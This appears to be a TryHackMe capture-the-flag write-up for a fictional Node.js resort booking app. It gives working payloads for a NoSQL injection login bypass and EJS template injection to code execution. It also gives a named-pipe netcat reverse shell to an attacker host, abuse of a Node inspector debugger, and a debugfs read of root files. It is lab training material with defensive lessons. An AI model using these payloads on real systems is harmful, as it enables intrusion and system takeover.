


# Do Not Disturb — TryHackMe (Boot2Root)

---
**Task checklist**



---

**Category:** Web / Boot2Root
**Difficulty:** Medium
**Points:** 90

---

**Room briefing / scenario**


---

## 📖 Scenario

> *"Hacker Holidays — The Byte Lotus Hotel"*
>
> Sign's on the door. Room's active. You have access you were never given, and so does he.
>
> The anomalies stop being anomalies: a session goes warm on a sunbed, and a stranger sits down in it. A wallet signs a transaction its owner didn't authorise. A shell on the beach answers back. And it becomes clear that whoever's already inside has been moving for far longer than you have.
>
> The Byte Lotus poolside platform tracks every cabana, every sunbed, every warm session. Byte Lotus never forgets. Someone is already inside. Follow his footprints in, climb the way he climbed, and recover both flags.

The target is a Node.js/Express web application called **"Byte Lotus — Poolside"**, styled as a hotel/resort booking platform. The goal: find a foothold as an unauthenticated user, escalate to a staff-level account, achieve remote code execution, and ultimately gain root access on the underlying Linux host.

---

## 🛠️ Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port scanning and service enumeration |
| `gobuster` | Directory/endpoint brute-forcing |
| `curl` | Manual HTTP request crafting (login, injection, RCE payloads) |
| Firefox DevTools | Inspecting page source, network requests, cookies |
| `nc` (netcat) | Catching a reverse shell |
| Node.js (`node -e`) | Custom script to speak the Chrome DevTools/V8 Inspector Protocol over raw WebSocket |
| `debugfs` | Reading files directly off a raw disk partition, bypassing filesystem permissions |

---

## 🔍 Methodology

### 1. Reconnaissance
An `nmap` scan of the target revealed two open ports:

- **22/tcp** — OpenSSH
- **80/tcp** — Node.js (Express middleware), hosting the "Byte Lotus — Poolside" site

```bash
nmap -sC -sV -p- -Pn <target_ip>
```

### 2. Web Enumeration
Browsed the site manually and ran `gobuster` against it to discover hidden paths:

```bash
gobuster dir -u http://<target_ip> -w /usr/share/wordlists/dirb/common.txt -x js,json -t 50
```

This revealed:
- `/logout` — implying a session/login system existed even though no `/login` GET route was public
- `/staff` — returned `403 Forbidden`, indicating a protected staff-only area

Viewing the page source showed a login form (`POST /login`) accepting a `username` and `password`.

### 3. Authentication Bypass — NoSQL Injection
The backend is Node.js/Express, and the login endpoint accepted JSON bodies. This raised suspicion of a MongoDB backend vulnerable to **NoSQL injection**, since Express apps commonly pass user input straight into Mongo queries without sanitisation.

Testing confirmed it — sending MongoDB query operators instead of plain strings manipulated the query logic:

```bash
curl -X POST http://<target_ip>/login \
  -H "Content-Type: application/json" \
  -d '{"username":{"$ne":""},"password":{"$ne":""}}'
```

This bypassed authentication entirely and logged in as the *first* matching user (`role: guest`).

Further testing with the `$nin` (not-in) operator allowed **skipping known usernames** to enumerate other accounts in the database:

```bash
curl -X POST http://<target_ip>/login \
  -H "Content-Type: application/json" \
  -d '{"username":{"$nin":["guest"]},"password":{"$ne":""}}'
```

This returned a session with **`role: staff`** — full authentication bypass into a privileged account, without ever knowing a real username or password.

### 4. Privilege Discovery — Staff Console
Using the staff session cookie, `/staff` was now accessible. It revealed a **"Cabana Desk"** console: a form allowing staff to customise a guest booking-confirmation message, rendered using the **EJS templating engine**:

```
Dear <%= guest %>, your Byte Lotus cabana is confirmed.
```

### 5. Server-Side Template Injection (SSTI) → RCE
Because the `template` field was rendered server-side with EJS and reflected directly into the page, this was a textbook **SSTI** vulnerability. A basic math expression confirmed it:

```
<%= 7*7 %>   →  rendered as "49"
```

Since EJS templates execute arbitrary JavaScript within `<%= %>` tags, this was escalated to full **Remote Code Execution** via Node's built-in `child_process` module:

```
<%= process.mainModule.require('child_process').execSync('id').toString() %>
```

This confirmed command execution as the `poolside` system user, and allowed reading local files (including the user flag) directly through crafted templates.

### 6. Stabilising Access — Reverse Shell
To move beyond one-off command injections, a classic named-pipe reverse shell was triggered through the same SSTI RCE, connecting back to a netcat listener on the attacker machine:

```bash
# Attacker
nc -lvnp 4444
```
```
<%= process.mainModule.require('child_process').execSync(
  'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> 4444 >/tmp/f'
).toString() %>
```

This produced a fully interactive shell as `poolside`.

### 7. Lateral Movement — Node.js Debug Inspector
Process enumeration (`ps aux`) revealed a second, more privileged-looking service:

```
pipelinesvc   /usr/bin/node --inspect=127.0.0.1:9229 processor.js
```

The `--inspect` flag exposes Node's **V8 Inspector / Chrome DevTools Protocol** on a local TCP port — a well-known but often-overlooked RCE vector when left open, even on `127.0.0.1`, if an attacker already has local code execution (which we did, via the SSTI foothold).

A small custom Node script was written to:
1. Complete the WebSocket handshake with the inspector endpoint
2. Send a `Runtime.evaluate` protocol message containing an arbitrary JavaScript payload
3. Read back the evaluated result

This granted code execution as the `pipelinesvc` user — a **different, more privileged** service account than `poolside`.

### 8. Privilege Escalation — Disk Group Abuse
Checking `id` as `pipelinesvc` revealed group membership in **`disk`**:

```
uid=995(pipelinesvc) gid=995(pipelinesvc) groups=995(pipelinesvc),6(disk)
```

Members of the `disk` group have **raw read access to block devices** (e.g. `/dev/nvme0n1p1`), regardless of the filesystem's normal file permissions. This is a well-known but frequently underestimated Linux privilege escalation path — it doesn't grant root directly, but it lets you read (or write) anything on disk by bypassing the filesystem layer entirely.

Using `debugfs` (a standard `e2fsprogs` utility for direct ext4 inspection), the root-owned flag file was extracted straight from the raw partition, without ever needing actual root privileges:

```bash
debugfs -R "cat /root/root.txt" /dev/nvme0n1p1
```

---

## 🧩 Attack Chain Summary

```
Unauthenticated
   │  NoSQL Injection ($nin/$ne operators)
   ▼
Staff Session (auth bypass)
   │  SSTI in EJS template preview
   ▼
RCE as `poolside`
   │  Reverse shell for stability
   ▼
Interactive shell (poolside)
   │  Found exposed Node --inspect debugger (port 9229, localhost-only)
   ▼
RCE as `pipelinesvc` (via CDP/WebSocket Runtime.evaluate)
   │  pipelinesvc is a member of the `disk` group
   ▼
Raw block-device read via debugfs
   │  Bypasses filesystem permissions entirely
   ▼
Root flag recovered
```

---

## 🎓 Key Takeaways / Lessons

- **NoSQL injection** is easy to miss when developers assume JSON body validation is "safe" — always sanitise or type-check user input before passing it into a MongoDB query, and reject objects where strings are expected.
- **SSTI** in any templating engine (EJS, Jinja2, Twig, etc.) that renders untrusted user input is a critical vulnerability — never let user-controlled data reach a template compiler.
- **`--inspect` / debug flags should never be left enabled in production**, even bound to `127.0.0.1` — if an attacker gets any code execution on the host, localhost-only bindings offer no real protection.
- **Group memberships matter as much as user accounts.** Being in the `disk`, `docker`, `lxd`, or similar groups can be just as dangerous as having sudo rights, since they often provide indirect paths to root.

---

## 📸 Screenshots

**Completion summary**



